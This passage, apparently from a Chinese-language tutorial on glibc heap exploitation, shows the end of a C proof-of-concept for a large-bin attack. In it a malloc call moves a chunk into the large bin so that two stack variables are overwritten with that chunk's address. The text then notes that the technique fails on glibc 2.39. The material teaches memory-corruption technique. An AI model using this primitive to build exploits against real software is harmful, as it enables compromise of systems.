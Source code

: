 ```cpp

    // asm("int3");

    printf("Call malloc to move p3 to large bin, make *(p2->bk_nextsize + 0x20) == stack_var1 == p3 and *(p2->bk + 0x10) == stack_var2 == p3\n");
    malloc(0x20);
    printf("\tstack_var1 = %p\n", (char *)stack_var1);
    printf("\tstack_var2 = %p\n", (char *)stack_var2);
    // asm("int3");

    exit(0);
}
```

这里要注意的是 `p3` 的大小比 `p2` 大，属于第 2 种利用方式，可以同时修改两个指针为 `p3` 地址：

![largebin_uaf_arb_addr_write_exp_2](largebin_uaf_arb_addr_write_exp_2.png)

如果改用新版本 (2.39)，这种方式会失败：
